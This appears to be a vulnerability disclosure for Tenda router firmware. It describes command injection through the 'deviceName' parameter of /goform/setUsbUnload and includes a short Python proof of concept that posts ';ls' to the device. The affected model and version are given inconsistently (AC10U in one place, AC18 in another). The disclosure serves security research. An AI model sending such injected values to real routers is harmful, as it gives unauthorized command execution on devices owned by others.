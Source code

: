 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

In Tenda AC18 V15.03.05.05 firmware, we discovered a command injection vulnerablility in the `deviceName` parameter and the `usb_name` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `deviceName` can trigger this security vulnerability.

![image-20240313213912075](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313213912075.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setUsbUnload"
payload = ";ls"

data = {"deviceName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313164800839](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313164800839.png)
